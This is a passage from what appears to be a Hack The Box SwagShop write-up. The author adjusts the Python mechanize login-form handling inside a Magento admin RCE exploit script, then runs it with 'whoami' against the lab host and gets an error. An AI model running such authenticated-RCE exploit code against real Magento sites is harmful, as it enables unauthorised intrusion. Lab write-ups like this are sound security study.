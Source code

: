 - This error shows up because for whatever reason mechanizer is mechanize is seeing multiple username/password fields.

> `Mechanize` is Python library that allows Python programs to intecat with websites in a manner sismilar to human user browsing with a web browser, but without a graphical interface.
Some key features of Mechanize: `HTML Form Filling`, `Link following`, `Cookie Handling`...
{: .prompt-info }

- We’ll need to make the following changes:

```python
#br.select_form(nr=0)
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password

br.select_form(predicate=lambda f: f.attrs.get('id') == 'loginForm')    # Select the correct login form
br.form.find_control(name='login[username]', nr=0).value = username     # Select the first login[username] input field and assign it the value username 
br.form.find_control(name='login[password]', nr=0).value = password     # Select the first login[password] input field and assign it the value password
```

Finally let's run our script:

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py 'http://swagshop.htb/index.php/admin/' "whoami"
Traceback (most recent call last):
  File "RCE.py", line 73, in <module>
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'

```

![alt text](../assets/Frustration-The-Office.gif)
